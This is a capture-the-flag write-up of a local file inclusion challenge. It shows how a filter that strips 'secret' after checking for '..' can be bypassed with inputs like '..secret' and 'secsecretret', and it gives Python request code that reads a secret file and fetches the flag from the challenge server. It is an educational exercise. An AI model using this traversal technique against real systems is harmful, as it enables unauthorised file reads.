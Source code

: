 Challenge author: t0m7r00z

This task introduces LFI, our goal is to read this file **billet_task/secret_1337_sh1t/secret_word.txt**

and we'll be doing so by exploiting this line.

```python
first_search = os.path.join(os.getcwd(), "registres", *reg).replace("secret", "") 

# There are two things that we care about.
# First it unpacks the reg value which means if I pass in a list ["a", "b"]
# The path becomes os.getcwd()/registres/a/b
# And the other thing is replace("secret", "") and we'll be seeing why later
```
The file we need is at **os.getcwd()/billet_task/secret_1337_sh1t/secret_word.txt** but it joins our input to **os.getcwd()/registres** so how can we read it?

**First:** We want to leave registres folder and read from billet_task but we can't use **..** because of this

```python
if ("/" in reg) or (".." in reg):
    data = "Je vois des trucs interdits ici."
```

This is when we exploit ```.replace("secret", "")``` by giving it **..secret** it will automatically bypass the filter and then remove "secret".


**Second:** Now we want to read secret_1337_sh1t/secret_word.txt but the problem is that "secret" get's replaced with "", BUT ONLY ONCE!

Solution: **sec**secret**ret**_1337_sh1t/**sec**secret**ret**_word.txt

So our whole payload becomes ad follows:

```["..secret", "billet_task", "secsecretret_1337_sh1t", "secsecretret_word.txt"]``` 


```python
r = requests.post("https://infreezy.pythonanywhere.com/get_registre", json={"registre":["..secret","billet_task", "secsecretret_1337_sh1t", "secsecretret_word.txt"]})
print(r.text)
# s3c5e7_1337_f@k1ng_m3s5Ss4ge
```
All that is left to do is to access /get_billet?secret=s3c5e7_1337_f@k1ng_m3s5Ss4ge

```python
with open("flag.png","wb") as file:
    r = requests.get("https://infreezy.pythonanywhere.com/get_billet?secret=s3c5e7_1337_f@k1ng_m3s5Ss4ge")
    file.write(r.content)
```

![](../Rev/images/flag.png)

